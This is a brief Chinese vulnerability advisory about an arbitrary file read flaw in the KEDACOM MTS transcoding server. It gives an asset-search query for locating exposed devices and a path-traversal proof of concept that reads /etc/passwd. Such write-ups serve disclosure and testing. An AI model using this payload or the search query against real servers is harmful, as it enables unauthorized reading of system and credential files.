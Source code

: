 # 科达 MTS转码服务器 任意文件读取漏洞

## 漏洞描述

KEDACOM MTS转码服务器存在任意文件读取漏洞，攻击这通过漏洞可以读取服务器任意信息

## 漏洞影响

<a-checkbox checked>MTS转码服务器</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="MTS转码服务器"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1639570369459-12a283d6-4165-44c6-9618-0943fb751a91.png)

验证POC

```python
/../../../../../../../../etc/passwd
```

![img](/assets/PeiQi-Wiki/img/1629778524057-9426a92c-d716-45fa-bd9b-6d82e814f791.png)